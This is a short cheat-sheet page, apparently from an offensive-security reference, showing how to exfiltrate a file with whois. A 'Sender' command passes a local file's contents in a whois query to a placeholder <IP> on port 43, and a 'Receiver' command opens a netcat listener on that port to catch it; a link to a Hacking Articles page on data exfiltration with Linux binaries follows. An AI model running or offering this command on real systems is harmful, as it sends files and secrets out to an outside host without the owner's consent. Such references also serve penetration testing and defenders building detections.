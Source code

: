 # Whois

## Sender

```
$ whois -h <IP> -p 43 $(cat /path/to/file.txt)
```

## Receiver

```
$ sudo nc -lnvp 43
```

---
## References

### Hacking Articles

- [Hacking Articles: Data Exfiltration Using Linux Binaries](https://www.hackingarticles.in/data-exfiltration-using-linux-binaries/)